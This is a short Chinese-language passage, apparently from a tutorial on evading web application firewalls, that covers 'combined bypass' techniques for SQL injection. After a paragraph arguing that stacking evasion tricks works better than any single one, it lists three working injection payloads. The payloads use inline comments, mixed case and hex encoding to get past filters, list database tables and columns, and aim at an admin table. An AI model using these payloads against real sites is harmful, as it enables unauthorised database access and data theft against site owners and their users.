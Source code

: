  

## i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说是总体与局部和的关系，另一方面则是多种技术的使用创造了更多的可能性，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。

举例：

`z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…`

 

`id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -`

 

`?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--  `

 